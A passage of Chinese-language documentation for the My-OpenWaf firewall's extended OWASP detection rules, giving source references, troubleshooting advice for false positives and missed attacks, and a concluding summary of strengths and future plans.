

**图表来源**
- [owasp.go:930-963](file://internal/waf/owasp.go#L930-L963)
- [owasp.go:271-296](file://internal/waf/owasp.go#L271-L296)

## 故障排除指南

### 常见问题诊断

#### 误报问题

当检测系统产生误报时，可以通过以下方式进行诊断：

1. **检查敏感度设置**：调整 `OWASPSensitivity` 参数
2. **查看检测日志**：分析具体的检测规则命中情况
3. **验证上下文**：确认检测结果是否符合实际业务场景

#### 漏报问题

如果发现攻击被漏检，建议：

1. **增加检测规则**：根据新的攻击模式添加相应的正则表达式
2. **调整阈值**：适当降低检测阈值以提高敏感度
3. **更新特征库**：定期更新检测特征以应对新威胁

### 调试工具



**章节来源**
- [owasp_extended_test.go:1-471](file://internal/waf/owasp_extended_test.go#L1-L471)

## 结论

My-OpenWaf 的扩展 OWASP 规则实现了对现代 Web 攻击的全面防护。通过精心设计的检测算法、特征提取方法和误报控制机制，该系统能够在保证检测准确性的同时，有效平衡性能和资源消耗。

### 主要优势

1. **全面性**：覆盖了从传统 SQL 注入到最新 Log4Shell 等复杂攻击
2. **准确性**：通过多层次检测和上下文验证减少误报
3. **可扩展性**：模块化的架构设计便于添加新的检测规则
4. **性能优化**：采用多种优化策略确保高吞吐量处理能力

### 未来发展方向

1. **机器学习集成**：结合机器学习算法提高检测准确性
2. **实时威胁情报**：集成实时威胁情报以应对新兴威胁
3. **自动化规则更新**：实现规则的自动更新和优化
4. **云原生支持**：增强对容器化和微服务架构的支持

该扩展检测系统为构建企业级 Web 安全防护提供了坚实的技术基础，能够有效保护 Web 应用免受各种复杂攻击的威胁。